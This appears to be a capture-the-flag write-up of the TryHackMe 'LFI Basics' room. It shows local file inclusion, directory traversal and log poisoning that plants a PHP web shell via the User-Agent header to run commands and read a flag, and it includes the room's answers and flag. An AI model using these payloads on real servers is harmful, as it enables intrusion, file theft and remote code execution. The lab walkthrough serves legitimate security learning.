 ```yaml
---
layout: post
title: Write-Up [THM] LFI Basics
categories: [Write-Ups]
tags: [TryHackMe, LFI]
featured-image:  thm/lfiBasics/theme.png
featured-image-alt: LFI Basics
---
```


It's a write-up about the room : [Try Hack Me - Room : LFI Basics](https://tryhackme.com/room/lfibasics)# Task 1 - local File Inclusion

* What's the message you get when you include the home.html?

We went on `http://ip_machine/lfi/lfi.php/?page=home.html` and the message was **You included home.html**.

* What user that it's not by default there is present?

We read the passwd file : `http://ip_machine/lfi/lfi.php/?page=/etc/passwd` and found the user **lfi**.

## Task 2 - Local File Inclusion using Directory Traversal

* Add the "?page=" parameter, and try to include the home page again. Does it work (Yes/No)? **No** 

* What are the credit card numbers ? 

`http://ip_machine/lfi2/lfi.php/?page=../creditcard` and found **1111-2222-3333-4444**.

## Task 3 - Reaching RCE using LFI and log poisoning

`http://ip_machine/lfi/lfi.php/?page=/var/log/apache2/access.log`

* Can you read the log (Yes/No)? **Yes**

* Give it a try and run uname -r. What's the output of the command?

`http://ip_machine/lfi/lfi.php?page=/var/log/apache2/access.log&lfi= uname -r`

With BurpSuite, we changed the User-Agent :  
`Mozilla/5.0 <?php system($_GET['lfi']); ?> Firefox/79.0`.   

And after that we send with the repeater : `http://<IP>/lfi/lfi.php?page=/var/log/apache2/access.log&lfi=uname%20-r`.  
The answer is : `4.15.0-72-generic`

* With this knowledge read the flag from the lfi user home directory.

To begin we searched what file can contained the flag with the command ls in the lfi user home directory : `GET /lfi/lfi.php?page=/var/log/apache2/access.log&lfi=ls%20../../../../../../home/lfi/`

We found :
```
Documents
Downloads
Music
Pictures
Public
Templates
Videos
flag.txt
```

Therefore we read the content of the file flag.txt : 
`GET /lfi/lfi.php?page=/var/log/apache2/access.log&lfi=cat%20../../../../../../home/lfi/flag.txt`.  

We found the last flag : **THM{a352a5c2acfd22251c3a94105b718fea}**.